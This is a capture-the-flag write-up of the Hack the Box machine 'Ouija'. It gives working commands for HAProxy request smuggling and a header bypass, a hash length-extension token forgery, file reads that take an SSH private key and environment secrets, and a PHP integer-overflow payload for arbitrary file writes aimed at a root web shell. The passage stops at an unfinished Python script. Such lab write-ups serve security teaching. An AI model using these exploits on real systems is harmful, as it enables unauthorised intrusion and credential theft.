


Ouija is an insane difficulty Linux-based [**Hack the Box**](https://app.hackthebox.com/machines/Ouija) machine created by [**kryptoskia**](https://app.hackthebox.com/users/837661). We first explored the web server on port 80 to find an alternate VHost serving a Gitea instance with a repository that disclosed version information for the backend web infrastructure. One of the products happened to be a version of HAProxy that was vulnerable to **CVE-2021-40346**, which we exploited to access a restricted VHost. On this restricted site we located the source code for a Node.js Express app on port 3000 that could be exploited to read arbitrary files including the SSH key for a user named Leila, which we used to login over SSH. On the remote filesystem, we locate a custom PHP module used on a web application listening locally on port 9999. After thorough analysis and debugging, an **integer overflow** bug was found and exploited to write a web shell and gain execution as root.


## Recon

We began by conducting a full TCP port scan using a tuned nmap command. This should quickly and reliably scan for any relevant TCP ports on the target.

```zsh
# Run a TCP port scan
mkdir -p output/{,nmap}
nmap 10.10.11.244 -v -Pn -sTVC --min-rate 200 -T4 --max-retries 2 -oA output/nmap/scan
```
{:file="bryan@htb ➤ zsh" .nolineno}

We found three open ports:

| State | Transport | Port | Protocol | Product         | Version                  |
|:------|:----------|:-----|:---------|:----------------|--------------------------|
| Open  | TCP       | 22   | SSH      | OpenSSH         | 8.9p1 Ubuntu 3ubuntu0.4  |
| Open  | TCP       | 80   | HTTP     | Apache httpd    | 2.4.52                   |
| Open  | TCP       | 3000 | HTTP     | Node.js Express |                          |


## Web

On port 80, we arrived at a default Apache landing page for Ubuntu.


_Default Apache landing page at <http://10.10.11.144/index.html>_


### Content Discovery

A little-known trick was used to determine whether the Apache HTTP server on port 80 is configured for use with PHP. If configured for PHP, the site should return a 403 HTTP response for requests to `/.php`{:.filepath}.

```zsh
test $(curl http://10.10.11.244/.php -so/dev/null -w '%{http_code}') = 403 &&
    echo 'PHP module is present' ||
    echo 'PHP module is not present'
```
{:file="bryan@htb ➤ zsh" .nolineno}

The site appeared to have the Apache PHP module loaded, so we recursively brute-forced additional paths with PHP, HTML, and text file extensions using feroxbuster[^tool-feroxbuster].

```zsh
# run directory/file brute on http://10.10.11.244
feroxbuster -u http://10.10.11.244 -x php html txt -w raft-small-directories-lowercase.txt
```
{:file="bryan@htb ➤ zsh" .nolineno}


_Feroxbuster results for <http://10.10.11.244>_

The scan found `/index.php`{:.filepath} which returns a redirect to <http://ouija.htb/>. The hostname **ouija.htb** did seem to trigger a unique response so we added it to `/etc/hosts`{:.filepath}. An Apache status page was also located at the default location, `/server-status`{:.filepath}.

```zsh
# Verify that ouija.htb is a distinct vhost
curl -sH "Host: ouija.htb" http://10.10.11.244 | $PAGER

# Add ouija.htb to /etc/hosts
sudo tee -a /etc/hosts <<< $'10.10.11.244\touija.htb'
```
{:file="bryan@htb ➤ zsh" .nolineno}


_Apache server status page at <http://10.10.11.244/server-status>_

One thing to note here is that this server refers to itself as "Apache/2.4.52 (Ubuntu) Server at 10.10.11.244 **Port 8080**" at the bottom of the status page. This is interesting because it signifies that there is likely some middleman application listening on port 80 that is actively proxying requests to/from a backend Apache instance on port 8080.


#### Primary Site

We visited <http://ouija.htb> in a web browser to collect information and discover additional attack surface. The site discloses the names and positions of four employees, which we noted as this may become valuable later on.


_The landing page at <http://ouija.htb/>_


_List of employees and positions_

[Katana](https://github.com/projectdiscovery/katana)[^tool-katana] was used to recursively crawl <http://ouija.htb> in search of additional content and relevant information about the site and its structure.

```zsh
# Crawl http://ouija.htb/ with Katana
katana -u "http://ouija.htb/" -jsluice -display-out-scope
```
{:file="bryan@htb ➤ zsh" .nolineno}


_Katana crawl results for <http://ouija.htb/>_


The crawl session finds a reference to <http://gitea.ouija.htb/leila/ouija-htb/js/tracking.js> on one of the crawled pages. We added this hostname to `/etc/hosts`{:.filepath} to easily access the associated vhost from a browser. We also tried brute-forcing any additional hostnames that trigger a different response using [FFuF](https://github.com/ffuf/ffuf)[^tool-ffuf] with [this wordlist](https://github.com/n0kovo/n0kovo_subdomains/blob/main/n0kovo_subdomains_small.txt).

```zsh
# Verify that gitea.ouija.htb is a unique vhost
curl -IsH "Host: gitea.ouija.htb" http://10.10.11.244 | $PAGER

# Add gitea.ouija.htb to /etc/hosts
sudo tee -a /etc/hosts <<< $'10.10.11.244\tgitea.ouija.htb'

# Brute-force vhosts with ffuf
ffuf -u http://ouija.htb -H "Host: FUZZ.ouija.htb" \
    -o ffuf-vhost.json -w ./n0kovo_subdomains_small.txt \
    -mc all -fr '<title>Apache2 Ubuntu Default Page: It works</title>' -fc 200 -fmode and

# Analyze anomalies
jq -r '.results[].input.FUZZ' ffuf-vhost.json | $PAGER
```
{:file="bryan@htb ➤ zsh" .nolineno}

We found that any hostname matching `^dev` is "forbidden by administrative rules" as returned in the HTTP 403 response. Another notable detail is that these 403 responses don't have Apache's _Server_ header, so these requests are likely getting rejected by a middleman before reaching Apache.


_Request using VHost with "dev" prefix_


#### Gitea

The **gitea.ouija.htb** vhost serves a Gitea[^software-gitea] instance with a single user named **leila** who owns the [ouija-htb](http://gitea.ouija.htb/leila/ouija-htb) repository. This repo has only one commit, and appears to exclusively store frontend web content.


_Git repository at <http://gitea.ouija.htb/leila/ouija-htb>_


The `README.md`{:.filepath} document discloses specific version information about the third-party products used to setup the website. This includes the open-source load balancer and proxy, HAProxy[^software-haproxy] at version **2.2.16**.


_`README.md`{:.filepath} for **ouija-htb**_


Using the [CVEDetails version search](https://www.cvedetails.com/version-search.php), we found [six CVEs](https://www.cvedetails.com/vulnerability-list/vendor_id-11969/product_id-22372/version_id-1060525/) affecting the forementioned HAProxy version. The listing for [CVE-2021-40346](https://www.cvedetails.com/cve/CVE-2021-40346/), references a [detailed proof-of-concept by the JFrog Security Research Team](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/).


_CVEDetails listing for HAProxy 2.2.16_


### CVE-2021-40346

We used CVE-2021-40346 to bypass the HAProxy controls in charge of filtering requests to **dev.ouija.htb** with some HTTP request smuggling. Using information from the JFrog PoC, We first visualized the communication involved in an exploitation attempt between us (the client), HAProxy, and Apache.




#### HTTP Request Smuggling

We crafted a special HTTP request to smuggle to the Apache web server with the otherwise blacklisted host header value **dev.ouija.htb**. Immediately after sending this, we sent another request to fetch the backend response.


_HTTP request to exploit CVE-2021-40346_


_Receive response for smuggled request_


### HAProxy Rule Bypass (Unintended)

Instead of exploiting CVE-2021-40346 to smuggle a specific host header past HAProxy, we can exclude the host header altogether when using **HTTP/1.0** instead of **HTTP/1.1** since version 1.0 does not require it. To inform the Apache server of the desired VHost without a host header, we simply pass a URL as the HTTP path (proxy style).

```zsh
# Access dev vhost with nc
nc -C ouija.htb 80 <<< $'GET http://dev.ouija.htb/ HTTP/1.0\n'

# Access dev vhost with cURL
alias curl_haproxy_bypass="curl -0H Host: --proxy1.0 ouija.htb:80"
curl_haproxy_bypass http://dev.ouija.htb
```
{:file="bryan@htb ➤ zsh" .nolineno}


### Development Site

References to `editor.php`{:.filepath} were found at the web index with the GET parameter _file_ set to either `app.js`{:.filepath} or `init.sh`{:.filepath}, likely pointing to files somewhere on disk.

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Ouija dev</title>
    <link rel="stylesheet" href="style.css">
  </head>
  <body>
    <h1>projects under development</h1>
    <ul>
      <li>
        <strong>Project Name:</strong> Api
        <br>
        <strong>Api Source Code:</strong>
        <a href="http://dev.ouija.htb/editor.php?file=app.js" target="_blank">app.js</a>
        <strong>Init File:</strong>
        <a href="http://dev.ouija.htb/editor.php?file=init.sh" target="_blank">init.sh</a>
      </li>
    </ul>
    <footer>
    &copy; 2023 ouija software
    </footer>
  </body>
</html>
```
{:file="http://dev.ouija.htb/" .nolineno}

Both of the project files were requested with `editor.php`{:.filepath} and extracted from the response. Since we suspected that the _file_ parameter was dynamically pulling files from the disk, we tried traversing directories to read `/etc/passwd`{:.filepath}.


_Read `init.sh`{:.filepath} via smuggled request_

```sh
# Alternatively request editor.php with unintended HAProxy bypass

alias curl_haproxy_bypass="curl -0H Host: --proxy1.0 ouija.htb:80"

# Create function to fetch files from the remote filesystem
function ouija_dev_read_text_file() {
  curl_haproxy_bypass http://dev.ouija.htb/editor.php -sG --data-urlencode "file=$1" |
    sed -zE 's|.*<textarea[^>]*>||;s|</textarea>.*||'
}

ouija_dev_read_text_file init.sh | tee init.sh
ouija_dev_read_text_file app.js | tee app.js
ouija_dev_read_text_file ../../../../etc/hosts | tee etc-hosts
```
{:file="bryan@htb ➤ zsh" .nolineno}

From reading `/etc/hosts`{:.filepath}, we suspect that this filesystem belongs to a Docker[^software-docker] container judging by the hostname and subnet of the last entry.


### API

The Node.js Express[^software-express] application in `app.js`{:.filepath} appeared to be the one serving on port 3000, with `init.sh`{:.filepath} being the script to initialize the environment and soft-link `./.config/bin/process_informations`{:.filepath} to target `/proc`{:.filepath}.

```sh
#!/bin/bash

echo "$(date) api config starts" >>
mkdir -p .config/bin .config/local .config/share /var/log/zapi
export k=$(cat /opt/auth/api.key)
export botauth_id="bot1:bot"
export hash="[REDACTED]"
ln -s /proc .config/bin/process_informations
echo "$(date) api config done" >> /var/log/zapi/api.log

exit 1
```
{:file="init.sh"}

```js
var express = require('express');
var app = express();
var crt = require('crypto');
var b85 = require('base85');
var fs = require('fs');
const key = process.env.k;

app.listen(3000, ()=>{ console.log("listening @ 3000"); });

function d(b){
  s1=(Buffer.from(b, 'base64')).toString('utf-8');
  s2=(Buffer.from(s1.toLowerCase(), 'hex'));
  return s2;
}
function generate_cookies(identification){
  var sha256=crt.createHash('sha256');
  wrap = sha256.update(key);
  wrap = sha256.update(identification);
  hash=sha256.digest('hex');
  return(hash);
}
function verify_cookies(identification, rhash){
  if( ((generate_cookies(d(identification)))) === rhash){
    return 0;
  }else{return 1;}
}
function ensure_auth(q, r) {
  if(!q.headers['ihash']) {
    r.json("ihash header is missing");
  }
  else if (!q.headers['identification']) {
    r.json("identification header is missing");
  }

  if(verify_cookies(q.headers['identification'], q.headers['ihash']) != 0) {
    r.json("Invalid Token");
  }
  else if (!(d(q.headers['identification']).includes("::admin:True"))) {
    r.json("Insufficient Privileges");
  }
}

app.get("/login", (q,r,n) => {
  if(!q.query.uname || !q.query.upass){
    r.json({"message":"uname and upass are required"});
  }else{
    if(!q.query.uname || !q.query.upass){
      r.json({"message":"uname && upass are required"});
    }else{
      r.json({"message":"disabled (under dev)"});
    }
  }
});
app.get("/register", (q,r,n) => {r.json({"message":"__disabled__"});});
app.get("/users", (q,r,n) => {
  ensure_auth(q, r);
  r.json({"message":"Database unavailable"});
});
app.get("/file/get",(q,r,n) => {
  ensure_auth(q, r);
  if(!q.query.file){
    r.json({"message":"?file= i required"});
  }else{
    let file = q.query.file;
    if(file.startsWith("/") || file.includes('..') || file.includes("../")){
      r.json({"message":"Action not allowed"});
    }else{
      fs.readFile(file, 'utf8', (e,d)=>{
        if(e) {
          r.json({"message":e});
        }else{
          r.json({"message":d});
        }
      });
    }
  }
});
app.get("/file/upload", (q,r,n) =>{r.json({"message":"Disabled for security reasons"});});
app.get("/*", (q,r,n) => {r.json("200 not found , redirect to .");});
```
{:file="app.js"}

Despite the measures in place to prevent path traversal on the `/file/get`{:.filepath} route, we could still potentially read from the root filesystem using the symlink created in `init.sh`{:.filepath} at `.config/bin/process_informations`{:.filepath}. To access this route however, we must pass the authentication and authorization checks in `ensure_auth`.


#### Authentication

The authentication check fails if the _ihash_ HTTP header doesn't match `sha256(key || identity)` where _identity_ is passed as `base64(hex(identity))` in the _identification_ HTTP header. The valid _ihash_ value for the identity "bot1:bot" in `init.sh`{:.filepath} was used to authenticate.

```zsh
# Auth variables from init.sh
botauth_id="bot1:bot" # identity
hash="[REDACTED]"

# Encode identity
botauth_id_e=$(echo -n $botauth_id | xxd -p | tr -d \\n | base64 -w0)

# Test authentication
curl http://ouija.htb:3000/users -H "ihash: $hash" -H "identification: $botauth_id_e"
# "Insufficient Privileges" -> authenticated, but not authorized
```
{:file="bryan@htb ➤ zsh" .nolineno}

We still did not reach the route's primary functionality because our identity didn't contain the string "::admin:True".


#### SHA-256 Length Extension

Some access controls based on secret-prefix SHA-256 MACs like the mechanism seen in `generate_cookies`/`verify_cookies` can be trivially broken with [**Length extension attacks**](https://en.wikipedia.org/wiki/Length_extension_attack). These attacks are relatively easy to implement [as seen here](https://kerkour.com/sha256-length-extension-attacks), but we'll use hash_extender[^tool-hash_extender] to avoid headache. To use hash_extender, we first had to build it from source with a [minor fix](https://github.com/iagox86/hash_extender/pull/25/commits/62b681af5a86175147de69b473a2a066063461e4) in the Makefile to avoid errors.

```diff
--- Makefile	2024-04-14 10:40:48.892266033 -0500
+++ Makefile	2024-04-14 10:40:48.892266033 -0500
@@ -14 +14 @@
-CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated
+CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated-declarations
```
{:file="hash_extender.patch" .nolineno}

Two parallel wordlists were created with the identity and signature for each possible key length because the secret prefix length is unknown. FFuF[^tool-ffuf] was run in pitchfork mode to spray each possible pair until reaching the correct key length.

```zsh
# Generate extended data / signature pairs
./hash_extender -d 'bot1:bot' -s '[REDACTED]' -a '::admin:True' -f sha256 --secret-min 2 --secret-max 64 | tee hash_extender.out

# Separate strings and signatures for further processing
grep "^New signature" hash_extender.out | grep -Eoi '[0-9a-f]{64}$' > ihash.wl

# Separate strings 
for str in $(grep "^New string" hash_extender.out | grep -Eoi '[0-9a-f]+$')
do echo -n $str | base64 -w0; echo
done > id_data.wl

# Find valid pair with pitchfork mode in FFuF
ffuf -u http://ouija.htb:3000/users -mode pitchfork -fr '"Invalid Token"' \
    -H "ihash: IHASH" -H "identification: DATA" \
    -w ./ihash.wl:IHASH -w ./data.wl:DATA
```
{:file="bryan@htb ➤ zsh" .nolineno}

```http
GET /users HTTP/1.1
Host: ouija.htb:3000
ihash: 14be2f4a...[REDACTED]
identification: NjI2Zjc0MzEzYTYyNmY3ND...[REDACTED]

```
{:.nolineno}

with these values, we used the `/file/get`{:.filepath} route to read `/etc/hosts`{:.filepath} using the symlink at `.config/bin/process_informations` to traverse to the `/proc`{:.filepath} filesystem and read the process environment variables.

```zsh
# Confirm we can access this route
auth=(-H ihash:$ihash -H identification:$identification)
curl -s $auth "http://ouija.htb:3000/file/get"

# Read /proc/self/environ via symbolic link
curl -s $auth "http://ouija.htb:3000/file/get?file=.config/bin/process_informations/self/environ" | jq -r 'select(.message)?|.message'
```
{:file="bryan@htb ➤ zsh" .nolineno}

```sh
LANG=en_US.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOME=/home/leila
LOGNAME=leila
USER=leila
SHELL=/bin/bash
INVOCATION_ID=7aadfaf386754c7b86df29d65023a176
JOURNAL_STREAM=8:22222
SYSTEMD_EXEC_PID=848
k=[REDACTED]
```
{:.nolineno}

The actual signing key is found, and we identify the current user as **leila**. We accessed the filesystem root (bypassed `^/` restriction) via the symlink at `.config/bin/process_informations/self/root`{:.filepath} > `/proc/self/root`{:.filepath} > `/`{:.filepath}. In addition, we fetched Leila's SSH private key and used it to successfully login via SSH.

```zsh
# Read /etc/passwd via symbolic link
curl -s $auth "http://ouija.htb:3000/file/get?file=.config/bin/process_informations/self/root/etc/passwd" | jq -r 'select(.message)?|.message'

# Read /home/leila/.ssh/id_rsa
curl -s $auth "http://ouija.htb:3000/file/get?file=.config/bin/process_informations/self/root/home/leila/.ssh/id_rsa" | jq -r 'select(.message)?|.message' | tee leila_id_rsa
```
{:file="bryan@htb ➤ zsh" .nolineno}

```zsh
chmod 600 leila_id_rsa
ssh -i leila_id_rsa leila@ouija.htb
```
{:file="bryan@htb ➤ zsh" .nolineno}


## Privilege Escalation

Once logged in as Leila, we collect the user flag and conduct some pretty standard privilege escalation checks. We ended up finding an unusual folder at `/development`{:.filepath} with a PHP web application at `/development/server-management_system_id_0`{:.filepath}, and many ports listening locally.

```bash
ss -tpln
```
{:file="leila@ouija ➤ bash" .nolineno}

```
State   Recv-Q  Send-Q   Local Address:Port   Peer Address:Port  Process
LISTEN  0       4096         127.0.0.1:9999        0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6000        0.0.0.0:*
LISTEN  0       511          127.0.0.1:8080        0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6001        0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6002        0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6003        0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6004        0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6005        0.0.0.0:*
LISTEN  0       4096     127.0.0.53%lo:53          0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6006        0.0.0.0:*
LISTEN  0       128            0.0.0.0:22          0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6007        0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6008        0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6009        0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6010        0.0.0.0:*
LISTEN  0       4096        172.17.0.1:3002        0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6011        0.0.0.0:*
LISTEN  0       4096         127.0.0.1:39099       0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6012        0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6013        0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6014        0.0.0.0:*
LISTEN  0       4096        172.17.0.1:6015        0.0.0.0:*
LISTEN  0       128               [::]:22             [::]:*
LISTEN  0       511                  *:3000              *:*     users:(("js",pid=851,fd=18))
```
{:file="leila@ouija ➤ bash ➤ ss • STDOUT" .nolineno}

Listing or fetching information about foreign processes appeared to be prohibited because `/proc`{:.filepath} is mounted with `hidepid=invisible`, so we enumerated systemd services instead.

```bash
# Enumerate processes + services
ps -auxf # List processes -> only UID=1000
mount | grep hidepid= # Look for hidepid setting -> "hidepid=invisible"

# List running systemd services
systemctl --type="service" --state="running" # Unusual: start__pph curl_worker sapi
more /etc/systemd/system/{start__pph,curl_worker,sapi}.service # View service configs
```
{:file="leila@ouija ➤ bash" .nolineno}

```text
[Unit]
Description=VERTICA

[Service]
User=root
WorkingDirectory=/development/server-management_system_id_0
ExecStart=/usr/bin/php -S 127.0.0.1:9999
Restart=always

[Install]
WantedBy=multi-user.target
```
{:file="/etc/systemd/system/start__pph.service" .nolineno}


The **start__pph** service is in charge of a PHP web server that serves `/development/server-management_system_id_0`{:.filepath} on port 9999 as root. We began investigating this application in search of a path forward.


### Server Management System

In `/development/server-management_system_id_0/index.php`{:.filepath}, we noticed a call to an unfamiliar function called `say_lverifier`. This function appeared to somehow validate credentials passed via POST form parameters.

```php
<?php
  if(isset($_POST['username']) && isset($_POST['password'])){
//  system("echo ".$_POST['username']." > /tmp/LOG");
    if(say_lverifier($_POST['username'], $_POST['password'])){
      session_start();
      $_SESSION['username'] = $_POST['username'];
      $_SESSION['IS_USER_'] = "yes";
      $_SESSION['__HASH__'] = md5($_POST['username'] . "::" . $_POST['password']);
      header('Location: /core/index.php');
    }else{
      echo "<script>alert('invalid credentials')</alert>";
    }
  }
?>
```
{:file="/development/server-management_system_id_0/index.php" .nolineno}


The function `say_lverifier` is not manually imported and no mention of it could be found in any PHP or third party documentation, so we assumed that it was a custom module or library. We listed compiled-in modules in search of one that might house this function and found the **lverifier** module at `/usr/lib/php/20220829/lverifier.so`{:.filepath}.

```bash
# Locate the code associated with say_lverfifier
php -m # List compiled-in modules
find / -iname '*lverifier*' -ls 2>/dev/null # Find lverifier module
```
{:file="leila@ouija ➤ bash" .nolineno}

We promptly downloaded the extension from `/usr/lib/php/20220829/lverifier.so`{:.filepath} to begin an in-depth disassembly and review.

```zsh
# Download the extension for analysis
scp -i ./leila_id_rsa leila@ouija.htb:/usr/lib/php/20220829/lverifier.so .
```
{:file="bryan@htb ➤ zsh" .nolineno}


#### Static Analysis

We first opened `lverifier.so`{:.filepath} in Radare2[^tool-radare2] for static analysis, then searched for a function related to `say_lverifier` and found `dbg.zif_say_lverifier`. The disassembly of this function reveals that it is wrapped around another function at `dbg.validating_userinput`.

```zsh
radare2 -AA lverifier.so
```
{:file="bryan@htb ➤ zsh" .nolineno}

```sh
aflt | grep -v \\.imp\\. # List native functions
pdf @ dbg.zif_say_lverifier # Display disassembly of zif_say_lverifier
pdf @ fcn.00001160 # This is just a relocation for dbg.validating_userinput
VV @ dbg.validating_userinput # Open dbg.validating_userinput in graph mode
```
{:file="bryan@htb ➤ zsh ➤ radare2" .nolineno}

Radare2 was able to automatically recover the original function signature, `int validating_userinput(char *username, char *password)` as displayed in the comments in graph mode. Just looking at the first branch (everything before the first jump instruction) in `validating_userinput`, we noticed some unusual handling of the return value from the call to `strlen(username)`.

> Here in graph mode we used <kbd>p</kbd> to display offsets, and <kbd>'</kbd> to toggle comments.
{:.prompt-tip}


_Partial disassembly of validating\_userinput function_


The instruction `movsx rax, ax` at address 0x1890 copies the value of `strlen(username) + 0xa` (_rax_) using the 16-bit _ax_ register, then expands _rax_ to a 64-bit signed integer. This could cause unexpected behavior when _rax_ is greater than 0x7fff, or even an [integer overflow](https://en.wikipedia.org/wiki/Integer_overflow) when greater than 0xffff. This transformed value is most likely used to measure the username buffer, so an inaccurate value could cause memory leakage or corruption.



The last instruction in this first block will jump to 0x19c0 and follow a much longer route if the true username size is less than or equal to 0x320, otherwise it will execute just four additional instructions inside of the conditional.

![Disassembly of block [oc] in validating_userinput](pe-r2-validating-userinput-oc.png)
_Disassembly of conditional block [oc]_


Block **oc** just copies the first 0x320 bytes of the username buffer to _[rdi]_, then continues to the final block.


_Disassembly of conditional block [og]_

In this last block we found calls to `fcn.000011b0` and `fcn.000010f0` which are simply relocations for `dbg.event_recorder` and `dbg.load_users` respectively. The `event_recorder` function is particularly interesting because it contains calls `fopen` and `fwrite`. On further inspection, the function appears to use the first argument as a file path passed to `fopen`, and the second as the content to write to that file via `fwrite`.


#### Dynamic Analysis / Debugging

A Docker container was created with the same PHP version as on the remote machine. I've included a Dockerfile here to help set up the debugging environment.

```dockerfile
FROM php:8.2.12-cli-bullseye

# Copy lverifier.so to the module load path
COPY lverifier.so /usr/local/lib/php/extensions/no-debug-non-zts-20220829

ARG DEBIAN_FRONTEND="noninteractive"
RUN apt update
RUN apt upgrade --yes
RUN apt install --yes libglib2.0-dev libc6-dbg \
    gcc gcc-multilib nasm ltrace strace procps gdb gdbserver git
 
WORKDIR /opt/pwndbg
RUN git clone https://github.com/pwndbg/pwndbg .
RUN ./setup.sh
WORKDIR /root

CMD [ "/usr/bin/gdb", "/usr/local/bin/php", "--args", "php", "-a" ]
```
{:file="Dockerfile"}


> If you plan on using this Dockerfile, make sure to place `lverifier.so`{:.filepath} in the working directory
{:.prompt-info}

```zsh
# Build image + create temporary container + attach to gdb
sudo docker build . --tag="ouija-dbg" &&
  sudo docker run --rm -it --name="ouija-dbg" --network="none" ouija-dbg
```
{:file="bryan@htb ➤ zsh" .nolineno}

Once the image is built and the container is running, we started the PHP process and manually loaded the shared object in the interactive shell with `dl("lverifier");`. Once the extension is loaded, we send SIGINT (CTRL+C) to halt process execution and return to gdb.


_Load the target extension in interactive shell_

Just one breakpoint was set at __*validating\_userinput+64__ to observe the transformation of the username length _rax_ as discussed earlier. We used a large cyclic pattern in a call to `say_lverifier` to trigger the integer overflow we found during static analysis.

```php
$c = file_get_contents("/tmp/cyclic.txt");
var_dump(say_lverifier(substr($cyclic, 0, 0x10000 - 0xa), "demopass"));
```
{:.nolineno}


_call say\_lverifier with breakpoint at *validating\_userinput+64_


We took note of the local named variables and proceeded to step through each individual instruction to see how the parameters are handled and how the integer overflow at __validating\_userinput+64__ would affect the program.

When we reached **\*validating_userinput+270**, part of the local variable *log_path* was overwritten with the first eight bytes of the cyclic pattern. Then at **validating_userinput+306** both *log_path* and *session* were completely consumed by portions of the username buffer, so that when we reached the call to **event_recorder**, both of the arguments point to positions in the cyclic pattern.


_Snapshot of local variables at validating\_userinput+270_


_Local variables log\_path and session are overwritten with the cyclic pattern_


_Pointers to segments of the username buffer are passed to event\_recorder_

Since pointers to portions of the username buffer are eventually passed to `fopen` and `fwrite` in `event_recorder` under certain conditions, we could potentially exploit this to append content to any file on the filesystem given the fact that we control the username buffer. We started to write a local exploit to run in the PHP shell that would write content to `/tmp/pwned`{:.filepath}.


#### Exploitation

There are a couple of things to note here:

1. The file path passed to `fopen` will be exactly 800 bytes, but it must be a valid path with a filename less than [FILENAME_MAX](https://cplusplus.com/reference/cstdio/FILENAME_MAX/).
1. The content passed to `fwrite` will be a substring of the file path, so the path will also contain the appended file content.
1. Any directories in the file path passed to `fopen` must exist.

We can fulfill all of these requirements by creating a directory in a writable folder like `/tmp`{:.filepath} or `/dev/shm`{:.filepath} with the name as the content to write, then passing the file path with a long "sled" of forward slashes followed by something like `/tmp/<CONTENT>/../../../real/file`{:.filepath} in order to include the content in the desired file while still keeping a valid path.

```php
$size = 0x10000 - 0xa;
$data = "no_forward_slashes_or_null_bytes_please";
$path = "/dev/shm/{$data}/../../../tmp/pwned";
$sled = str_repeat("/", 800 - strlen($path));

$payload = $sled . $path; // Full file path
$payload .= str_repeat("x", $size - strlen($payload)); // Padding for integer overflow
var_dump(@say_lverifier($payload, "demopass"));
```
{:.nolineno}

In order for this exploit to work, a directory must exist at `/dev/shm/no_forward_slashes_or_null_bytes_please`{:.filepath} so that the final file path is valid.


_Run exploit locally_


_Exploitation was successful!_

The exploit worked locally, so we proceeded to create a Python implemenation for the HTTP server on the remote host. We decided to just write a simple PHP web shell to `/development/server-management_system_id_0/something.php`{:.filepath} since it would run as root when requested on the HTTP server.

```py
#!/usr/bin/env python3
